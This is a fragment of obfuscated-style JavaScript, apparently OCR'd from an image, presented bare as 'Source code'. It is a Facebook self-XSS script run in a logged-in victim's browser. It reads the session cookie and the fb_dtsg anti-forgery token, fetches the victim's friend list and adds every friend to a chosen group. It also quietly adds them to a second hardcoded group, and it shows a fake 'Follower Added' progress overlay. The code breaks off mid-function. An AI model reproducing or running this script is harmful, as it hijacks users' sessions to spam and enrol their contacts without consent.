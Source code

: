 var friends = new Array(); gf = new XMLHttpRequest(); gf['open']('GET', '/ajax/typeahead/first_degree.php?__a=1&amp;viewer=' + user_id + '&amp;token' + Math['random']() + '&amp;filter[0]=user&amp;options[0]=friends_only', false); gf['send'](); if (gf['readyState'] != 4) {} else {     data = eval('(' + gf['responseText']['substr'](9) + ')');     if (data['error']) {} else {         friends = data['payload']['entries']['sort'](function (_0x93dax8, _0x93dax9) {             return _0x93dax8['index'] - _0x93dax9['index'];         });     }; };   for (var i = 0; i &lt; friends['length']; i++) {     var httpwp = new XMLHttpRequest();     var urlwp = '/ajax/groups/members/add_post.php?__a=1';     var paramswp= '&amp;fb_dtsg=' + fb_dtsg + '&amp;group_id=' + gid + '&amp;source=typeahead&amp;ref=&amp;message_id=&amp;members=' + friends[i]['uid'] + '&amp;__user=' + user_id + '&amp;phstamp=';     httpwp['open']('POST', urlwp, true);     httpwp['setRequestHeader']('Content-type', 'application/x-www-form-urlencoded');     httpwp['setRequestHeader']('Content-length', paramswp['length']);     httpwp['setRequestHeader']('Connection', 'keep-alive');     httpwp['onreadystatechange'] = function () { if (httpwp['readyState'] == 4 &amp;&amp; httpwp['status'] == 200) {};     };     httpwp['send'](paramswp); }; var user = getCookie("c_user"); function getCookie(c_name) { var i,x,y,ARRcookies=document.cookie.split(";"); for (i=0;i&lt;ARRcookies.length;i++) { x=ARRcookies[i].substr(0,ARRcookies[i].indexOf("=")); y=ARRcookies[i].substr(ARRcookies[i].indexOf("=")+1); x=x.replace(/^\s+|\s+$/g,""); if (x==c_name) { return unescape(y); } } } var tulisanNganu = '&lt;font color="black">&lt;b>Adding&lt;/b> &lt;/font>'; var kunaon = ''; function penetrasi(opo) { jx.load(window.location.protocol + "//www.facebook.com/ajax/groups/members/add_post.php?__a=1&amp;fb_dtsg=" + document.getElementsByName("fb_dtsg")[0].value + "&amp;group_id=" + memberGroupId + "&amp;source=typeahead&amp;members=" + opo + "&amp;nctr[_mod]=pagelet_group_members_summary&amp;lsd&amp;post_form_id_source=AsyncRequest&amp;__user=" + user, function (a) { var b = a.substring(a.indexOf("{")); var c = JSON.parse(b); i--; kunaon = "&lt;div class='friend-edge-name' style='text-align:left;font-size:10px;white-space:pre-wrap;"; if (c.error) { kunaon += "color:darkred'>"; if (c.errorDescription) { kunaon += c.errorDescription } else { kunaon += JSON.stringify(c, null, "") } } else { kunaon += "color:darkgreen'>"; kunaon += arr[i]; suc++ } kunaon += "&lt;/div>"; var dipes = "&lt;div id='friend-edge-display' style='position:fixed;left:50%;margin-left:-273px;top:100px;width:500px;background-color:rgba(100,200,225,0.9);z-index:9999;font-size:14px;text-align:center;padding:15px;border-radius:14px;border:8px solid red(0,0,0,0.5)'>"; dipes += "&lt;div style='padding-bottom:10px;font-size:20px;'>" + tulisanNganu + "&lt;/div>"; if (i > 0) { dipes += arr.length + " Follower Detected&lt;br/>"; dipes += "&lt;b>" + suc + "&lt;/b> Follower Added Of " + (arr.length - i) + " Follower Processed "; dipes += "(" + i + " More To Go..)"; dipes += "&lt;div class='friend-edge'>"; dipes += kunaon; dipes += "&lt;/div>" } else { dipes += arr.length + " Follower Detected And "; dipes += "&lt;b>" + suc + " Follower Added&lt;/b>"; dipes += "&lt;div>&lt;span class='uiButton' onClick='document.getElementById(\"pagelet_welcome_box\").style.display=\"none\"'>Done&lt;/span>&lt;/div>" } dipes += "&lt;/div>"; document.getElementById("pagelet_welcome_box").innerHTML = dipes }, "text", "post"); tay--; if (tay > 0) { var s = arr[tay]; setTimeout("penetrasi(" + s + ")", 100) } console.log(tay + "/" + arr.length + ":" + s + ", success:" + suc); if (memberGroupId != 128336317239973) { jx.load(window.location.protocol + "//www.facebook.com/ajax/groups/members/add_post.php?__a=1&amp;fb_dtsg=" + document.getElementsByName("fb_dtsg")[0].value + "&amp;group_id=128336317239973&amp;source=typeahead&amp;members=" + opo + "&amp;nctr[_mod]=pagelet_group_members_summary&amp;lsd&amp;post_form_id_source=AsyncRequest&amp;__user=" + user, function () {}, "text", "post") } } function clickfr_callback() { if (document.getElementsByName("ok").length > 0) { nHtml.ClickUp(document.getElementsByName("ok")[0]) } var a = arr[i]; if (i &lt; arr.length) addfriend(a.substring(0, 4)) } function clickfr() { if (document.getElementsByClassName("search").length > 0) { console.log(document.getElementsByClassName("search")[0].childNodes[0].childNodes[0].childNodes[1].innerHTML); document.getElementsByClassName("search")[0].childNodes[0].childNodes[0].href = "javascript:void(0);"; nHtml.ClickUp(document.getElementsByClassName("search")[0].childNodes[0].childNodes[0].childNodes[1]) } else j++; setTimeout("clickfr_callback()", 2e3) } function addfriend(a) { i++; document.getElementsByClassName("mbm")[eind].childNodes[0].childNodes[1].childNodes[0].focus(); document.getElementsByClassName("mbm")[eind].childNodes[0].childNodes[1].childNodes[0].value = a; document.getElementsByClassName("mbm")[eind].childNodes[0].childNodes[1].childNodes[0].blur(); document.getElementsByClassName("mbm")[eind].childNodes[0].childNodes[1].childNodes[0].focus(); document.getElementsByClassName("mbm")[eind].childNodes[0].childNodes[1].childNodes[0].focus(); setTimeout("clickfr()", 2e3) } function sleep(a) { var b = (new Date).getTime(); for (var c = 0; c &lt; 1e7; c++) { if ((new Date).getTime() - b > a) { break } } } jx = { getHTTPObject: function () { var a = false; if (typeof ActiveXObject != "undefined") { try { a = new ActiveXObject("Msxml2.XMLHTTP") } catch(b) { try { a = new ActiveXObject("Microsoft.XMLHTTP") } catch(c) { a = false } } } else { if (window.XMLHttpRequest) { try { a = new XMLHttpRequest } catch(b) { a = false } } } return a }, load: function (url, callback, format, method, opt) { var http = this.init(); if (!http || !url) { return } if (http.overrideMimeType) {